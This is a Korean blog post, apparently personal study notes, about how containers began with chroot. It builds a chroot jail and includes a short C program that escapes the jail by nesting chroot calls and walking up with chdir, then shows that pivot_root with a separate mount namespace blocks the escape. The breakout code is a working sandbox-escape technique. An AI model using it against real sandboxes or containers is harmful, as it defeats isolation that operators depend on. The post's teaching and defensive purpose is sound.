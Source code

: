 ```yaml
---
layout: post
title: 컨테이너의 시작 chroot 감옥 체험기
category: study
tags: kans
---
```


컨테이너는 가상머신과 다르게 커널을 공유해서 바로 프로세스를 실행 할 수 있는 구조이다.
아래 그림과 같이 호스트 커널을 공유하지만 각각의 독립된 사용자 공간을 가진다.

![1-0-0](/assets/img/1-0-0.png)



이러한 컨테이너의 시작은 특정 디렉토리를 루트(/)로 지정하여 해당 경로에 프로세스를 가두는 방식이다.

![1-0-1](/assets/img/1-0-1.png)

루트디렉토리 아래에 있는 디렉토리 A를 루트로 지정하여 들어가게되면

![1-0-2](/assets/img/1-0-2.png)

안에 있는 프로세스들은 디렉토리 A를 루트로 갇히게 된다.



#### 사용되는 명령어

chroot
:프로세스가 실행되는 루트 디렉토리를 특정 디렉토리로 변경한다.

pivot_root
:프로세스의 마운트 네임스페이스에서 루트 마운트를 특정 디렉토리에 마운트 되어있는 새 마운트로 변경한다.



![1-1-0](/assets/img/1-1-0.jpg)
#### 감옥생성

```
# 루트가 될 디렉토리(new-root)를 생성 후 필요한 명령어 복사
mkdir -p new-root/bin
cp $(which bash) new-root/bin

# 명령어 실행 시 참조하는 라이브러리 복사
ldd /bin/bash
cp /lib/x86_64-linux-gnu/libtinfo.so.6 new-root/lib/
...
```
이런식으로 필요한 명령어들을 하나씩 복사해서 넣어준다.
chroot 명령어를 통해 들어가보면 만들어진 루트 디렉토리에 갇힌 것을 확인할 수 있다.

![1-1](/assets/img/1-1.png)



#### 탈옥
탈옥하기에 앞서 위와 같이 명령어를 하나씩 다 넣기는 힘드니 만들어진 이미지를 사용하여 새로운 루트를 만들어준다.

```
# nginx이미지를 tar로 압축 후 nginx-root 디렉토리에 압축 해제
docker export $(docker create nginx:latest) | tar -C nginx-root -xvf -

# 탈옥 코드
cat <<EOF >escape_chroot.c
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
  mkdir(".out",0755);
  chroot(".out");
  chdir("../../../../../");
  chroot(".");

  return execl("/bin/sh", "-i", NULL);
}
EOF

# 위의 코드를 컴파일하여 nginx-root에 escape_chroot이라는 실행 파일을 생성
gcc -o nginx-root/escape_chroot escape_chroot.c
```
chroot 명령어를 사용하여 들어가 탈옥코드로 만든 실행파일을 실행시키면 진짜 루트 디렉토리로 나오게된다.

![1-2](/assets/img/1-2.png)



#### 문제 해결을 위해 pivot_root와 mount namespace를 이용하여 다시 가두기

```
# 디렉토리 생성 후 800M사이즈의 파일시스템을 마운트
mkdir new-root
mount -n -t tmpfs -o size=800M none new-root

# 위에서 테스트 했던 nginx-root의 파일들을 복사하여 새 디렉토리에 붙여넣기
cp -r nginx-root/* new-root/

# 마운트 포인트 디렉토리 생성
mkdir new-root/old-root

# 호스트에 영향을 주지않기 위해 mount namespace분리
unshare -m
```
escape_chroot을 돌려도 만들어진 루트 디렉토리에서 빠져나오지 못하는 것을 확인할 수 있다.

![1-3](/assets/img/1-3.png)



이렇게 격리된 환경의 리소스들은 해당 네임스페이스 안에서만 볼 수 있고 변경되지만,
자식은 부모의 네임스페이스를 상속받기 때문에 호스트에서 컨테이너 파일들에 접근과 프로세스 확인이 가능하다.


![1-4](/assets/img/1-4.png)

컨테이너 파일에 접근하여 파일 생성 및 삭제가 가능하고


![1-5](/assets/img/1-5.png)

호스트에서 컨테이너의 프로세스 확인 후 프로세스를 종료시키면 컨테이너 안에서도 종료되는 것을 확인할 수 있다. 



---
참고
- [https://netpple.github.io/docs/make-container-without-docker/container-internal-1](#)
- [https://netpple.github.io/docs/make-container-without-docker/container-internal-2](#)
- [https://www.44bits.io/ko/post/change-root-directory-by-using-chroot](#)

- [https://man7.org/linux/man-pages/man2/chroot.2.html](#)
- [https://manpages.debian.org/bullseye/manpages-dev/pivot_root.2.en.html](#)
